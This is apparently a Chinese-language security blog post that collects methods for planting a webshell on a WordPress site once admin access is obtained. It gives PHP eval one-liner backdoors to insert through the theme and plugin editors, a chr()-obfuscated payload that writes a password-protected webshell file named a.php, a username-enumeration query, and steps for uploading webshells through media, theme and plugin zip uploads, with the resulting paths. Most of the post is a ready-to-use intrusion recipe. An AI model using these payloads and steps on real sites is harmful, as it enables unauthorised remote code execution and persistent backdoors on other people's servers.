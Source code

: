 ```yaml
---
title:  Wordpress 后台GetShell总结
date: 2019-11-6 23:10:13
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - Wordpress
    - GetShell
---
```

# 0x00 前言

Wordpress后台Getshell的方法网上公开了很多，在此记录总结一下

相比于前台，wordpress后台的防御的就低得多
Wordpress的插件和主题功都可以上传和线编辑
很容易就可以插入木马getshell

`?author=1` 遍历用户名

# 0x01 在线编辑getshell
## 编辑主题
### 第一种
在后台找到主题外观编辑
选择主题，在右侧选择php文件

在`PHP`标签内写入 `@eval($_POST[a]);`
或者在`PHP`标签外写入 `<?php @eval($_POST['code']);?>`
提交更改

路径为 
`url+/wp-content/themes/+主题名/+修改文件的文件名`

连接即可

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191107003059.png)



也可以在这里写入

`url+/wp-content/themes/Begin/inc/xxx.php`

### 第二种

进入主题编辑器，选择要编辑的主题，要编辑的文件
插入下方payload,然后访问之
(报下图错不用管)
`url+/wp-content/themes/编辑的主题/编辑的文件`

这样就在该目录下生成一句话木马文件
文件名  `a.php`   密码  `a`
路径 `url+/wp-content/themes/编辑的主题/a.php`


```
<script language="php">fputs(fopen(chr(46).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112),w),chr(60).chr(63).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(97).chr(93).chr(41).chr(59).chr(63).chr(62));</script>
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191107001505.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191107002023.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191107002415.png)


## 编辑插件

和编辑主题思路方法一致

路径为

`url+/wordpress321/wp-content/plugins/+更改的插件名+/+更改的文件名`


# 0x02 上传getshell
## 媒体上传

在WordPress管理页面的左边单击“媒体”-“新增媒体案”
接着就会出来一个上传的界面，在该界面中选择“Browser 上傳功能”
直接选择php的Webshell上传即可；

## 上传主题

上传一个压缩了木马的zip
或者在官方主题中加入木马重新打包成zip更好
则木马路径为

`url+/wp-content/themes/+主题名+/木马名`



## 上传插件

和上传主题的思路一样

路径为

`url+/wp-content/plugins/+插件名+/木马名`




# 参考文章
[wordpress 后台拿webshell](https://www.i0day.com/227.html)
[Wordpress后台Getshell](https://www.jianshu.com/p/ffdbc362b69a)